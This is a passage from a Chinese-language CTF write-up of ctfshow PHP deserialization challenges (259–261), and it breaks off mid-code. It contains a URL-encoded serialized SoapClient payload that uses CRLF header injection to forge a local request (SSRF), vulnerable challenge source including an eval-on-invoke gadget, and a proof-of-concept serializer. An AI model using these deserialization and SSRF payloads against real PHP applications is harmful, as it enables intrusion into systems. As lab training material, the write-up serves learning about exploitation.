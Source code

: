 ```php
# O%3A10%3A%22SoapClient%22%3A5%3A%7Bs%3A3%3A%22uri%22%3Bs%3A25%3A%22http%3A%2F%2F127.0.0.1%2Fflag.php%22%3Bs%3A8%3A%22location%22%3Bs%3A25%3A%22http%3A%2F%2F127.0.0.1%2Fflag.php%22%3Bs%3A15%3A%22_stream_context%22%3Bi%3A0%3Bs%3A11%3A%22_user_agent%22%3Bs%3A127%3A%22edge%0D%0AX-Forwarded-For%3A127.0.0.1%2C127.0.0.1%0D%0AContent-Type%3A+application%2Fx-www-form-urlencoded%0D%0AContent-Length%3A+13%0D%0A%0D%0Atoken%3Dctfshow%22%3Bs%3A13%3A%22_soap_version%22%3Bi%3A1%3B%7D
```

flag会被写入到flag.txt，访问就能拿到flag



## 260  正则

```php
<?php

error_reporting(0);
highlight_file(__FILE__);
include('flag.php');

if(preg_match('/ctfshow_i_love_36D/',serialize($_GET['ctfshow']))){
    echo $flag;
}
```

反序列化后符合正则就行了

poc：

```php
<?php

class a{
    public $a = "ctfshow_i_love_36D";
}

$a = new a();
echo urlencode(serialize($a));
```





## 261 wakeup与unserialize，弱比较

```php
<?php

highlight_file(__FILE__);

class ctfshowvip{
    public $username;
    public $password;
    public $code;

    public function __construct($u,$p){
        $this->username=$u;
        $this->password=$p;
    }
    public function __wakeup(){
        if($this->username!='' || $this->password!=''){
            die('error');
        }
    }
    public function __invoke(){
        eval($this->code);
    }
```